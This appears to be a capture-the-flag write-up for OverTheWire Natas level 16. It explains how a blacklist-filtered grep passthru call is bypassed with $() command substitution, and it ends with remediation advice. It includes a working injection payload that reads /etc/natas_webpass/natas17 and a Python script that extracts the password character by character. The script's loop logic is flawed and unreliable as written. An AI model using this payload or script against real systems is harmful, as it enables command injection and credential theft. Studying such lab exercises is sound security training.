

# [Over The Wire (natas)] – [[Platform](http://natas16.natas.labs.overthewire.org/)] – [09/25/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [16]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)

## Login
1. Logged in with credentials:
   - **Username**: `natas16
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas16.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      $key = "";

      if(array_key_exists("needle", $_REQUEST)) {
         $key = $_REQUEST["needle"];
      }

      if($key != "") {
         if(preg_match('/[;|&`\'"]/',$key)) {
            print "Input contains an illegal character!";
         } else {
            passthru("grep -i \"$key\" dictionary.txt");
         }
      }
   ```
   - this roughly translates into 
  
   - this takes in needle param and makes the key variable
  
   - if there is a key not blank continue
    pick up illegal characters (; | & ` ' ")
    then use grep on the dictionary.txt 

   
4. Steps taken (command substituation):

   1. Since the input is checked for illegal characters this discards the options for command chaining, string termination and injection, file globbing. However only closed the option for one way to command substitute with the backtick ( \` ), the other options is the $().

   2. I could nest a grep search inside another grep search and try to guess the password one index at a time.
   
   3. The main idea would be to have grep check if the password in the file of `/etc/natas_webpass/natas17` started with a substring. 

   4. I attempted a burp suite sniper attack using Interpreter of 62 attempts of alphanumeric characters (a-zA-z0-9). `?needle=$(grep%20^{guess}%20/etc/natas_webpass/natas17)`

   5. All responded with same status code: 200 and roughly in server response time about the same, however only one of the responses came back with a shorter Content-Length. 

   6. Using a python script that builds up the "password" using this method. 
   

   ```python
      import requests
      from requests.auth import HTTPBasicAuth

      def main():
         # --- Configuration ---
         url = "http://natas16.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas16", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual
         charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

         password = ""  # will accumulate discovered characters

         # --- Loop through each position (1 to 32) ---
         while len(password) < 32:
            found = False
            for c in charset:
                  guess = password + c
                  
                  payload = f'{url}?needle=$(grep%20^{guess}%20/etc/natas_webpass/natas17)'
                  test = {"needle": '$(grep%20^E%20/etc/natas_webpass/natas17)'}
                  params = {"needle": payload}
                  
                  # Send request
                  r = requests.get(payload, auth=auth)

                  length_of_response = len(r.text) < 461926
                  if (length_of_response):
                     found = True
                     password += c

         return password
         

      if __name__ == "__main__":
         ans = main()
         print(f"\n[!] Full password: {ans}")

   ```
   
   7. This produced the flag.
   

---

🔑 **Why this works**: 

   - User input (needle) is inserted directly into a shell command passed to passthru() without safe sanitization.

   - The blacklist only blocks a few characters (; | & \ ' "), leaving other powerful constructs (e.g. $()` command substitution) usable.

   - Command substitution runs on the server before the outer grep is executed, allowing an attacker to run arbitrary commands and capture their stdout.

   - grep + dictionary.txt is a decoy: the application prints command output (or predictable results) even when the outer search does not match, which can be abused as an oracle.

   - The combination of substitution + visible stdout enables automated, incremental extraction (character-by-character or single-shot reads) of sensitive files like /etc/natas_webpass/*.
   

---

💥 **Impact**

   - Full disclosure of sensitive credentials (the next-level password) in a single request or via automated probing.

   - Unauthorized privilege escalation / lateral movement within the lab or system if other accounts/files are accessible.

   - Ability for an attacker to run arbitrary shell commands on the host (command execution) using allowed constructs.

   - Automated attacks are simple to script, making the vulnerability high-risk and easy to exploit at scale.

   - Information leakage and loss of challenge integrity; similar vulnerabilities in production could lead to severe data breaches.

---
  
🛠️ **Remediation**

   - Never interpolate user input directly into shell commands; remove passthru()/system()/exec() usage for handling user-controlled strings.

   - Use safe APIs instead of shelling out (e.g., use native file I/O or library search functions) or properly escape inputs with well-tested libraries.

   - Enforce an input whitelist (allow only expected characters/values) rather than trying to blacklist dangerous characters.

   - Drop unnecessary file permissions; keep secret files out of world-readable paths and restrict file access to the minimal required account.

   - Add strong logging, monitoring and rate-limiting to detect automated probing and unusual command patterns.

   - Run web applications with least privilege and remove or harden any debug or source-disclosure endpoints.